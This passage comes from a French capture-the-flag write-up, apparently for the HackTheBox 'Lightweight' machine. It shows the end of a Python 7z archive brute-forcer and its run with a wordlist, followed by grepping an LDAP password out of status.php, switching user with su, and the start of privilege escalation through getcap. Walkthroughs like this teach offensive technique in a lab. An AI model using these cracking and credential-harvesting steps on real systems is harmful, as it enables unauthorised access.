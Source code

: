             for i in range(int(self.threads_tds)):
                wrapper = threading.Thread(target=self.ExtensionModel, args=(i, q))
                wrapper.setDaemon(True)
                wrapper.start()
                wrapper.join(600)

            q.join()

    if __name__ == "__main__":
        Algorithm = SevenZip()
        Algorithm.start()

Si vous avez des problèmes d'indentations vous avez juste à allez dans ma page Github et il y'a une repositories qui se nomme 7z-BruteForce vous avez juste à git clone ça ! ;)

	root@seyptoo-Aspire-E5-721:/home/seyptoo/Bureau# python params.py backup.7z /usr/share/wordlist/directory-list-2.3-medium.txt

Pour la liste je vous conseille d'utiliser rockyou.txt. Personnellement le bruteforce à pris seulement environ 10 minutes.

	[-] Password not cracked : help
	[-] Password not cracked : events
	[-] Password not cracked : archive
	[-] Password not cracked : 02
	[-] Password not cracked : register
	[-] Password not cracked : en
	[-] Password not cracked : forum
	[-] Password not cracked : software
	[-] Password not cracked : downloads
	[-] Password not cracked : 3

	[+] Password cracked with success : delete

Parfait nous avons cracker le mot de passe. Le mot de passe est **delete** donc vous pouvez extraires les fichiers backup. Si nous regardons le fichier **status.php**.

	root@seyptoo-Aspire-E5-721:/home/seyptoo/Bureau# cat status.php|grep -e 'username' -e 'password'
	$username = 'ldapuser1';
	$password = 'f3ca9d298a553da117442deeb6fa932d';
	if ($bind=ldap_bind($ds, $dn, $password)) {

Parfait nous avons trouver le mot de passe pour accéder à l'utilisateur **ldapuser1**. On se connecte avec la commande **su**.

	[10.10.12.232@lightweight ~]$ su - ldapuser1
	Mot de passe : 
	Dernière connexion : dimanche 30 décembre 2018 à 09:11:32 GMT sur pts/1
	[ldapuser1@lightweight ~]$ 

PrivEsc
----
Maintenant nous passons au root. Le root n'est pas très compliqué.

Nous allons reutiliser la commande **getcap**.

	[ldapuser1@lightweight ~]$ getcap -r / 2>/dev/null
	/usr/bin/ping = cap_net_admin,cap_net_raw+p
	/usr/sbin/mtr = cap_net_raw+ep
	/usr/sbin/suexec = cap_setgid,cap_setuid+ep
	/usr/sbin/arping = cap_net_raw+p
	/usr/sbin/clockdiff = cap_net_raw+p
	/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
	/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
	/home/ldapuser1/openssl =ep
